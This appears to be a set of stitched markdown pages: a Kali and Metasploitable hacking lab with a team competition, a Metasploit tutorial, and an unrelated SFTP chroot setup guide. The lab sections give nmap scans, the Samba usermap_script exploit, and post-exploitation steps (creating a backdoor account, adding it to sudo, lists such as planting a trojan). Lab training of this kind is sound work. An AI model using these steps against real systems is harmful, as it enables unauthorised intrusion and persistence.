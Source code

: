 ## Kali Setup

Why Kali?

Environment Prep
Download a copy of Kali and import the image into virtualbox
Download a copy of Metasploitable and import the image into virtualbox
Download a copy of Metasploitable3 and import the image into virtualbox

### Environment Prep

Step 1: Launch your Kali VM and make sure the network settings are set to bridged mode
Step 2: Launch your Metasploit VM and make sure the network settings are set to bridged mode
Step 3: If you downloaded my Kali prebuilt image use username of devops and the password “D3v0psCr3w!” otherwise use the username and password you created.

Step 4: Verify that your system has a similar IP to your Kali Linux VM.
Step 5: For example if your IP address was 192.168.1.2 your Kali VM’s IP should be 192.168.1.xx an IP from
Once you have established that your environment is setup properly you are ready to begin

### Reconnaissance

Run a NMAP scan to what’s vulnerable
Host only scan: nmap xxx.xxx.xxx.xxx -sn (shows what hosts are alive)
Quick NMAP scan: nmap –F xxx.xxx.xxx.xxx (scans 100 ports per host)
Host identification scan: nmap –sV -O xxx.xxx.xxx.xxx (what’s important here)
Longer more thorough scan – nmap –p- xxx.xxx.xxx.xxx (scans all ports)

### Reconnaissance

When running a nmap scan you can use the following to pipe the output into a file so that you can reference the hosts that you found that might be available to exploit
nmap xxx.xxx.xxx.xxx -sn > ~/ipscan.txt
You can also run a scan pre and post starting your metasploitable VM and run the scan results through vimdiff to narrow down the results.
Cmd Example: vmdiff before.txt after.txt

Evaluate

How many hosts did you find?
What ports are available to exploit?
What kind of exploit or brute for attack can you run against those ports?
Run an exploit on the system to obtain reverse shell or brute force known accounts

Exploit
www.tekperfect.com
9
When executing an exploit please remember that you may need to specify the following options.
set RHOSTS xxx.xx.xxx.xxx - This is the command you use to set the host you are going to run the exploit against once you locate it on your network
set RPORT xxxx - This is the command you use to set the port of the host you are trying to exploit
setg RHOSTS - sets the target IP globally so that you don't have to set the target IP each time you switch exploits
run - Starts the exploit against the system you specified with the set rhost command.
Other options: set username, set password, set

Exploit
www.tekperfect.com
10

set targeturi - This is the root folder that is searched when an exploit is run
set threads - This is the number of threads you want to launch against a host you want to attack
set srvport - This is the port you will deliver the exploit from meaning a port on your system
grep exploit search service_type - Use this tool to search for the specific types of exploits you want to launch against a target.

Exploit
www.tekperfect.com
11

use exploit/multi/samba/usermap_script - This is the samba exploit you can launch against the metasploitable linux server
set rhosts xxx.xx.xxx.xxx - This is the command you use to set the host you are going to run the exploit against once you locate it on your network
run - Starts the exploit against the system you specified with the set rhost command.
reverse shell - is the access you have when you have successful executed the exploit against the vulnerable system.

Create, Elevate & Gain access
www.tekperfect.com
12
useradd username - create an account on the system via reverse shell
passwd username - Change the password on the account you just created
Elevate Privileges - Process of granting privileges to a known or created account to gain root level access to system
usermod -a -G sudo username - Add the account to the sudo group
usermod -a -G admin username - Add the account to the admin group

Connect & Elevate Access
www.tekperfect.com
13
ssh username@xxx.xxx.xxx.xxx - Connect to a remote or local system via ssh with a named account that you know the password to.
sudo command-name- Run a command with root or elevated privileges example: “sudo passwd username” changes the password of an account

Now What?
www.tekperfect.com
14

Add additional accounts
Search the system for sensitive data
Delete files
Change data on system or services running on the system
Plant a virus or trojan
Attack other systems from this system

Why is this exercise important?
www.tekperfect.com
15
It’s vital to understanding the command line
It’s critical to understanding security and vulnerabilities
If you don’t practice using these tools you will not understand the material

Hacking Exercise
www.tekperfect.com
16
Use Kali to find exploits in Metasploitable and Metasploitable3
Break up into two team and name your team
Team with the most points wins
Total possible points 400

Hacking Exercise
www.tekperfect.com
17
120 Possible points for exploits
120 possible points for demo or recording exploints
120 possible points for documenting how each exploit works
40 points for the best presentation
Winning team gets these t-shirts and \$250

## Metasploitable Toutorial

1. Download Kail and setup system [Kali Setup](kali.md)
2. Download Metasploitable ISO and install system
3. https://drive.google.com/open?id=165dAQCKKpjISinEq1Z6bDczW7_CDsGP1
4. Run metasploit against the Linux systems using exploits that pertain to the open ports on the system by running a NMAP scan of said system.
5. Launch Metaspolit
6. Run a use exploit/name_of_exploit/
7. use exploit/exploit_name
8. set payload exploit name
9. Or run this command use exploit_name
10. exploit
11. show options
12. set SRVHOST xxx.xxx.xxx.xxx (IP of your Kali Linux host)
13. set LHOST xxx.xxx.xxx.xxx (IP of your linux Host)
14. set RHOST xxx.xxx.xxx.xxx (IP of your linux Host)
15. show options
16. exploit
17. Run command against exploit system to obtain root elevate your privileges, create a file on the system, or any action that would prove you were able to gain access to the host.
18. Remember that when you have executed a working exploit you will not typically have a prompt to work from.
19. Once you find a working exploit reach out to the DevOps channel and let everyone know how you executed it.

### sftp-setup-ubuntu-ssh

Well, would you transmit your private details (including your password) in plain text? No? Well, FTP does. FTP is one of several protocols on a computer that transmits usernames and passwords in plain text across the internet (POP is another one, so we advise that you use secure email connections – but that’s another post. Which I haven’t written yet). If your email is sniffed mid-transmission, the hackers can find out all about your plans to go bowling after work on Friday. But if your FTP details are sniffed mid-transmission, your entire server security is compromised. Trust me – you don’t want that to happen.

SFTP (which, despite the name, is absolutely no relation to FTP) avoids that massive security risk by transmitted everything in encrypted form. It’s much, much harder to intercept.

It’s also incredibly hard to find a good tutorial on how to set it up. So here I’ll try to fill that gap.

The Problem:

I need to set up an SFTP server so that users can log in, update their own web files, but restrict users from seeing anyone else’s files. All web folders are in the /var/www/ folder. As we don’t have any existing users, I will assign usernames that match those folders, so access to the /var/www/petetest folder will be allowed to the user petetest.

The Steps:

1. Do NOT install an FTP program such as proftpd. You just don’t need one; SFTP is handled by the SSH program which is installed by default anyway.

2. (the real step 1) In a text editor, add the following lines to /etc/ssh/sshd_config

Match Group sftpusers
ChrootDirectory /var/www/%u
ForceCommand internal-sftp

What’s happening in these lines? We’re looking for users who are in the group sftpusers. Nobody else will get access to the server. We’re chrooting them (i.e, Jailing the users) to the folder /var/www/{their username}. They will be able to move downwards from that folder, but not up or across. Finally, we’re telling ssh to use its own sftp program.

3. For extra credit, change the Port at the top of this file from 22 to something else (choose a port not in use. e.g 2222). This gives just one extra layer of obfuscation for the hackers to get around.

4. Restart ssh with the following command;

service ssh restart

5. Check your permissions in /var/www

Each folder within /var/www should be owned by root:root, and have the permissions drwxr-xr-x applied to them.

The public folder (i.e the one which the web files are stored in) should be owned by www-data:www-data, and have the permissions drwxr-xr-x

6. Add the user to the correct groups

groupadd sftpusers
usermod -a -G sftpusers {username}
usermod -a -G www-data {username}

7. Try to connect.

The first time you connect, you may get a message such as ‘The server’s host key is unknown. You have no guarantee that the server is the computer you think it is.”. If so, check the host and port, and if they match, you can trust the host.

Common Issues

Note that you cannot chroot to the level of your public html folder – you must be one level above – otherwise you’ll NEVER get the permissions correct. It’s a security issue.

If you can see the folder, but you cannot SFTP a file into it – you don’t have the permissions set correctly. Add the ‘w’ permission to the group www-data
